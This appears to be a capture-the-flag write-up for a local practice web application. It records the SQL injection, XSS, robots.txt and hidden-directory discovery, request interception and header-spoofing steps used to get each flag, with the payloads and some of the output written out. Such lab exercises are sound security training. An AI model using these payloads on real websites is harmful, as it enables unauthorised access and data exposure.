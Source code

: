 
- http://localhost:8888/robots.txt
    - /whatever -> download a file htpasswd -> root:437394baff5aa33daa618be47b75cb49 
    - /.hidden  -> Multiple directories and subdirectories to discover

    ```bash
        > wget -e robots=off --recursive --no-parent  http://localhost:8888/.hidden/
        > grep -R "flag" -> whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README:Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466 
    ```

flag: d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466

---

- SQL Injection:
    - http://localhost:8888/?page=member
    - ' give us an Sql error meaning that there is a possible SQL injection
    - 1 OR 1=1-- - List us every users and the columns (2 columns: First name and Surname)
        - SELECT name, surname FROM users WHERE id = 1 OR 1=1-- -; become SELECT name, surname FROM users WHERE TRUE
    ```bash
        ID: 1 OR 1=1-- -; 
        First name: one
        Surname : me
        ID: 1 OR 1=1-- -; 
        First name: two
        Surname : me
        ID: 1 OR 1=1-- -; 
        First name: three
        Surname : me
        ID: 1 OR 1=1-- -; 
        First name: Flag
        Surname : GetThe
    ```
    // TODO //

--- 

- Recover Email:
    - http://localhost:8888/index.php?page=recover
    - Intercept POST request with Burp and modify e-mail with our e-mail and get the flag
    - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

---

- XSS:
    - http://localhost:8888/?page=feedback
    - &#60;a href=# onpointerenter=alert(1)&#62;Hover&#60;/a&#62;  (Url encoded  <> from <a href=# onpointerenter=alert(1)>Hover me</a>)
    - Flag: 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e

---
- XSS 2:
    - http://localhost:8888/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4=
    - Flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

---
- HTTP Header Modification
    - Clicking on the @BornToSec link we get to this url:
    - http://localhost:8888/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
    - In the source code we see that you have to change the referer and user-agent parameter of the http request in order to get the flag.
